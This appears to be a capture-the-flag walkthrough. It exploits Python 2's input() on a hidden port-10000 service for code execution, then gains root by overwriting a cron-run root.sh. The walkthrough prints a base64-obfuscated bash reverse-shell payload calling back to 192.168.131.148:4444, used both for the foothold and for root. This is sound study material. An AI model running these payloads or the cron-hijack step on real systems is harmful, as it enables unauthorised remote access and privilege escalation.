










## TL;DR

We find hidden service on port `10000`, and realize that it uses `input()` function. We managed to get `RCE` using malicious input, because this is python2, and then we get shell.

We can privilege escalate to root using overriding of `root.sh`, which is being executed in cronjob task under user `root`.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



We can see port `22` with ssh, and port `10000` with some strange service.

```bash
PORT      STATE SERVICE           VERSION                                                                                                                    
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                               
| ssh-hostkey:                                                                                                                                               
|   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)                                                                                               
|   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)                                                                                              
|_  256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (ED25519)                                                                                            
10000/tcp open  snet-sensor-mgmt?                                                                                                                            
| fingerprint-strings:                                                                                                                                       
|   DNSVersionBindReqTCP, GetRequest, NULL:                                                                                                                  
|     Private 0days                                                                                                                                          
|     Please enther number of exploits to send??:                                                                                                            
|   GenericLines:                                                                                                                                            
|     Private 0days                                                                                                                                          
|     Please enther number of exploits to send??: Traceback (most recent call last):                                                                         
|     File "./exploit.py", line 6, in <module>                                                                                                               
|     num_exploits = int(input(' Please enther number of exploits to send??: '))                                                                             
|     File "<string>", line 0                                                                                                                                
|     SyntaxError: unexpected EOF while parsing                                                                                                              
|   HTTPOptions, RTSPRequest:                                                                                                                                
|     Private 0days                                                                                                                                          
|     Please enther number of exploits to send??: Traceback (most recent call last):                                                                         
|     File "./exploit.py", line 6, in <module>                                                                                                               
|     num_exploits = int(input(' Please enther number of exploits to send??: '))                                                                             
|     File "<string>", line 1, in <module>                                                                                                                   
|_    NameError: name 'OPTIONS' is not defined                         
```

### RCE using input function python2

We can check what there is behind port `10000`. when we execute:
```bash
nc $target 10000
```
it asks:
```bash
Please enther number of exploits to send??:
```

Then, we give some number, and it looks like pinging behind the scenes.



I tried to give something else, like `'`, and it crashed. We can see the error message:
```py
File "./exploit.py", line 6, in <module>
    num_exploits = int(input(' Please enther number of exploits to send??: '))
``` 



I googled and find this article [https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1).

> So what’s the issue with this? Using Python 2’s input() function could mean that attackers are free to pass in variable names, function names and other data types, leading to authentication bypass and other unexpected outcomes.

I tried to pass this
```py
__import__('os').system('id')
```

and we got `RCE`.



I used the payload from `penelope`:
```py
__import__('os').system('printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzEuMTQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash')
```



and we got our reverse shell:



now, we can grab user flag:
```bash
king@ubuntu:~$ cat user.txt 
cf85ff769cfaaa721758949bf870b019
```


### Privilege Escalation to Root 

We can find the file `root.sh` in our folder
```bash
king@ubuntu:~$ cat root.sh 
python /root/company/media/*.py
```

We can see in `/etc/crontab` that it executes the file `root.sh` as root.
```bash
king@ubuntu:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   king    cd /home/king/ && bash run.sh
*  *    * * *   root    cd /home/king/ && bash root.sh
*  *    * * *   root    cd /root/company && bash run.sh
```



As you can see, the file `root.sh` has only root privileges... However, it is found in my folder, which i control.
So, I deleted `root.sh`, and created a new one with my payload.



I took this payload from `penelope`
```bash
king@ubuntu:~$ cat root.sh 
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzEuMTQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```

Now, we only need to wait one minute, and get the reverse shell as root



and this is the root flag.

```bash
root@ubuntu:~# cat root.txt 
9c37646777a53910a347f387dce025ec
```


